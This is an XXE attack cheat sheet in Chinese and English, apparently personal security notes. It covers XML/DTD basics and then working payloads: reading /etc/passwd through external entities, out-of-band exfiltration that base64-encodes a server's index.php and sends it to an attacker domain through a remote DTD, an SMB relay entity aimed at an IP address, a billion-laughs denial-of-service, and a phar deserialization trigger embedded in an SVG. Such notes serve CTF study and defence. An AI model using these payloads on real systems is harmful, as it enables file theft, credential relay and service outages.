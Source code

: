 # XXE (XML External Entity)
[TOC]
###### tags: `Security` `Web`

# XML Format
```
XML declaration:
<?xml version="1.0" ?>

DTD(Document Type Definition):
<!DOCTYPE note [
    <!ELEMENT note (to, from, body)>
    <!ELEMENT to   (#PCDATA)>
    <!ELEMENT from (#PCDATA)>
    <!ELEMENT body (#PCDATA)>
]>

Element:
<note>
<to>WildfootW</to>
<from>Oscar</from>
<body>Puta</body>
</note>
```
- DOCTYPE: DTD 聲明
- ENTITY: 實體聲明(類似變數)
- SYSTE、PUBLIC: 外部資源申請

## 內部實體
```xml
<!DOCTYPE wildfootw[
    <!ENTITY param "hello">
]>
<root>&param;</root>
```

## 外部實體
```xml
<!DOCTYPE wildfootw[
    <!ENTITY xxe SYSTEM "http://wildfoo.tw/xxe.txt">
]>
<root>&xxe;</root>
```

### Leak information
```xml
<!DOCTYPE wildfootw[
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>&xxe;</root>
```

- `libxml2.9.0`以後，預設不解析外部實體
- `simplexml_load_file()`舊版本中預設解析實體，但新版要指定第三個參數`LIBXML_NOENT`
- `SimpleXMLElement` is a class in PHP
    - http://php.net/manual/en/class.simplexmlelement.php


## 參數實體
### Leak information
```xml
<!DOCTYPE kaibro[
    <!ENTITY % remote SYSTEM "http://wildfoo.tw/xxe.dtd">
    %remote;
]>
<root>&b;</root>
```
`xxe.dtd`:
```xml
<!ENTITY b SYSTEM "file:///etc/passwd">
```

# Test XML
## php simplexml_load_string()
`apt install php7.3-xml`
```
$data = <<<EOF
<!DOCTYPE wildfootw[
  <!ENTITY param "hello world">
]>
<root>&param;</root>
EOF;
echo simplexml_load_string($data);
```

# Attacks
## Blind
### Error-based
[mohemiv](https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/)

### Out of Band 
```xml
<?xml version="1.0"?>
<!DOCTYPE ANY[
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/www/index.php">
<!ENTITY % remote SYSTEM "http://wildfoo.tw/xxe.dtd">
%remote;
%all;
%send;
]>
```
`xxe.dtd`:
```xml
<!ENTITY % all "<!ENTITY &#37; send SYSTEM 'http://wildfoo.tw/?x=%file;'>">
```

## XXE + SMBrelay to RCE
[medium](https://medium.com/@canavaroxum/xxe-on-windows-system-then-what-76d571d66745)
```xml
<!DOCTYPE kaibro[
    <!ENTITY xxe SYSTEM "\\12.34.56.78">
]>
<root>&xxe;</root>
```

# Others
## DoS

- Billion Laugh Attack

```xml
<!DOCTYPE data [
<!ENTITY a0 "dos" >
<!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
<!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
<!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
<!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
]>
<data>&a4;</data>
```

## 串 Phar 反序列化

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE ernw [ 
    <!ENTITY xxe SYSTEM "phar:///var/www/html/images/gginin/xxxx.jpeg" > ]>
    <svg width="500px" height="100px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
    <text font-family="Verdana" font-size="16" x="10" y="40">&xxe;</text>
</svg>
```

- Example: MidnightSun CTF - Rubenscube

## XXE in Files
- [Black hat 2015 video](https://www.youtube.com/watch?v=LZUlw8hHp44)
### file types
- DOCX
- XLSX
- PPTX
- PDF
### Tools
- [OXML_XXE](https://github.com/BuffaloWill/oxml_xxe)
- [DOCEM](https://github.com/whitel1st/docem)
